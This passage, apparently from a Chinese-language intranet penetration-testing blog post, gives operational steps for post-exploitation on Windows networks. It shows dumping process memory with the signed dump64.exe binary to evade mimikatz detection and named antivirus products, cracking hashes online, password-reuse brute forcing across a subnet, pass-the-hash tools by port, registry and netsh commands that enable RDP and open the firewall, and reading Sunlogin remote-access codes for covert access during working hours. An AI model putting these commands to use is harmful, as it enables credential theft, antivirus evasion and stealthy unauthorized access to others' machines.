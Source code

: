但很多时候mimikatz会被拦截，这时候可以通过一些LOLBINS方法dump出来本地解

![image_xvtqu2JT5W.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152625293-1925390265.png)

这里使用的dump64.exe为白程序，位置位于

```
C:\Program Files (x86)\Microsoft Visual Studio\Installer\Feedback\
dump64.exe pid c:\\users\\xxx\\Desktop\\out.dmp
```

测试可过360和火绒

![image_w7zffbKEzi.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152626053-1427788749.png)

![image_x0lqYBmjQ2.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152627077-1944925672.png)

### 密码复用

08机器之前可以抓到明文，抓不到明文可以尝试到cmd5上进行破解，破解率较高

[https://www.cmd5.com](https://www.cmd5.com/)
[https://www.somd5.com](https://www.somd5.com/)

获取密码之后可以通过超级弱口令工具进行密码复用爆破，拿着获取的密码重新组合字典，对网段内的机器进行爆破，这次也是成功拿下了几十台机器

![image_B-HbFja15K.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152627810-2095530958.png)

若hash解不出来，这时候我们可以根据开放的端口进行PTH，下面列举一些

```yaml
wmiexec  135端口  
psexec   445端口  
evil-winrm   5985端口
```

### 向日葵读取密码

拿到机器的账号密码之后，若机器开启了3389端口可以选择rdp远程桌面过去，没开的话可以开启3389端口进行远程连接

```dockerfile
#执行以下命令操作注册表来开启机器3389远程桌面服务  
REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /v fDenyTSConnections /t REG\_DWORD /d 00000000 /f  

#使用以下命令添加防火墙放行策略  
netsh firewall add portopening protocol = TCP port = 3389 name = rdp  
```

但如果是正常办公时间，贸然登录过去会很容易引起对方的发现，若进程中有sunlogin进程，可以读取识别码和验证码，通过向日葵连接相对比较隐蔽

![duk5gbct0f_meMyYaCbN7.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152628508-1137865141.png)

注册表读取配置信息：

```mipsasm
reg query HKEY\_USERS\\.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginInfo  
reg query HKEY\_USERS\\.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginGreenInfo  

向日葵默认配置文件路径:  
安装版：C:\\Program Files\\Oray\\SunLogin\\SunloginClient\\config.ini  
便携版：C:\\ProgramData\\Oray\\SunloginClient\\config.ini  
本机验证码参数：encry\_pwd  
本机识别码参数：fastcode(去掉开头字母)  
sunlogincode：判断用户是否登录状态
```
